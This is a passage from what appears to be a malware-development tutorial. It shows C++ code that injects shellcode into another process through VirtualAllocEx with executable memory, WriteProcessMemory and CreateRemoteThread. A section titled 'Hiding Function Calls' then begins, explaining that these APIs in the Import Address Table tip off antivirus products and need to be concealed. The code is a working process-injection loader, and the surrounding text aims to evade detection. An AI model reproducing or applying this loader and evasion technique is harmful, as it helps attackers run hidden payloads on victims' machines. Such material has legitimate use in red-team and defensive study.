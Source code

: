 ```cpp
	PVOID baseAddress;
	baseAddress = VirtualAllocEx(hProcess, nullptr, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(hProcess, baseAddress, shellcode, shellcodeSize, nullptr);

	HANDLE hThread;
	hThread = CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)baseAddress, nullptr, 0, nullptr);

	CloseHandle(hProcess);

	return 0;
}
```

## Hiding Function Calls

Is there anything else that we can improve? Of course! If we analyze our binary, we can see that the functions we used (`OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` and `CloseHandle`) are listed in the binary's **Import Address Table**. This is a red flag since AVs look for a combination of these Windows APIs, which are commonly used for malicious purposes.

![Current Import Table](/static/img/2021-12-15-lazy-maldev/import-table-before.png)
